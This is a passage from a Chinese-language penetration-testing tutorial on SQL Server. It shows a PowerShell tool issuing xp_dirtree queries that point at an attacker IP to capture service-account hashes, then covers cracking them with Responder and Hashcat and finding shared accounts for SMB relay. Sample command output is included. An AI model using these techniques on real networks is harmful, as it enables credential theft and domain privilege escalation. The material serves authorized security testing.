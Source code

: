 **3，捕获和破解服务帐户的密码哈希**在渗透测试中同样也是一个获取 SQL server 服务账户权限非常有效的攻击方法，在许多场合下服务账户都有环境中所有 SQL Server 管理员权限，偶尔账户也会有域管理权限。我曾经写了一篇关于捕获中继 SQL Server 服务账户密码 hash 的文章([here](https://www.netspi.com/blog/entryid/139/executing-smb-relay-attacks-via-sql-server-using-metasploit))。然而，我提供过一种使用”-query”参数快速使 SQL Server 认证 192.168.1.50 攻击者的 IP 的方法。

```
PS C:\ Get-SQLServerAccess -query "exec master..xp_dirtree '\\192.168.1.50\file'"
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

有一个非常棒的工具叫做 Responder 可以捕获从任意 SQL server 传递过来的密码 hash。它可以从这里下载[here](https://github.com/SpiderLabs/Responder)。最后，hash 可以使用[OCLHashcat](http://hashcat.net/oclhashcat/)破解。

**4，针对共享 SQL Server 服务帐户，执行 SMB 中继攻击**几乎总是有效的。麻烦的是找出哪个 SQL Server 配置使用的是同一个服务账户。为了解决这个问题，我同样也在脚本中添加了几个参数来显示出所有服务账户。这些参数包括”-showsum”和”-showstatus”。服务账户同样也可以输出至 csv 文件中。一旦被发现，我博客之前提到的方法([found here](https://www.netspi.com/blog/entryid/139/executing-smb-relay-attacks-via-sql-server-using-metasploit))就可以用来获取 SQL Server 系统级权限。下面是一个基础的例子展示如何发现使用相同服务账户的 SQL Server:

```
PS C:\Get-SQLServerAccess -ShowSum | export-csv c:\temp\sql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[+] SUCCESS! - server2.mydomain.com\AppOneDev (192.168.1.102) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server3.mydomain.com\AppOneProd (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```
